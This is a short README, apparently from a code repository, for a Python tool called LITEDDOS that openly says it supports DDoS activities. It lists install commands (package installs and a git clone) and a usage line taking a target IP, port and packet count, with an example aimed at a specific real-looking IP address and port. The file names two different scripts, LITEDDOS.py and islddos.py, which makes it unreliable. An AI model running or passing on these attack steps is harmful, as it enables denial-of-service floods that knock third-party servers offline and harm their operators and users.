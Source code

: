 # LITEDDOS <br>
This Tool Is Supporting For DDOS Activities, The Way Is Typing <br>
Command :  <br>
pkg update && pkg upgrade <b>
pkg install python python2 python3 <br>
pkg install git <br>
git clone https://github.com/HRCXXII/Ddoss  <br>
cd Ddoss <br>
chmod +x LITEDDOS.py <br>
$ python2 LITEDDOS.py ip port packet <br>
example:  <br>
$ python2 islddos.py 104.27.190.77 8080 100 <br>
IP target: 104.27.190.77 port: 8080 packet:100 <br>
Made In indonesia Indonesia Security Lite <br>
Thanks By Mr.XXII Team HRCXXII.
